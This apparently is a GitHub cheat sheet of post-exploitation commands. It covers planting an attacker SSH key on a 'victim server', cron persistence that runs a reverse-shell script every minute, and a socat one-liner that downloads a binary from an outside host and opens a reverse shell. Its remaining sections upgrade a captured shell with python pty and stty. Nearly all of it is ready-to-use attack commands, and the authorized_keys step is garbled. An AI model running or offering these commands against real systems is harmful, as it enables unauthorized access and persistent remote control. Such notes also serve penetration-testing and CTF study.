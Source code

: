 [generate an ssh key on attacker server](https://docs.github.com/en/authentication/connecting-to-github-with-ssh/generating-a-new-ssh-key-and-adding-it-to-the-ssh-agent)


### create ssh keys

on attacker server
```
echo "./user_rsa" | ssh-keygen -t rsa -b 4096 -C "your_email@example.com"; chmod 600 ./user_rsa; cat ./user_rsa.pub
```

on victim server
```
echo "" >> ~/.ssh/authorized_keys
```

on attacker server
```
ssh -i id_rsa user@${box_ip}
```

### basic reverse shells [revshell generator](https://www.revshells.com/)

**crontab reverse shells (every minute)**

```
* * * * *    /lib/systemd/revshell.sh
* * * * *    /usr/bin/revshell.sh
```
### upgrade revserse shells

**python**
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

**socat** - [get socat here](https://github.com/andrew-d/static-binaries)

```bash
(load onto target box)

wget -q https://10.10.10.10:8000/socat -O /tmp/socat; chmod +x /tmp/socat

(listener)

socat file:`tty`,raw,echo=0 tcp-listen:4444

(target box)

/tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444

(target oneliner)

wget -q https://10.10.10.10:8000/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

**stty**

```bash
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows 38 columns 116
```
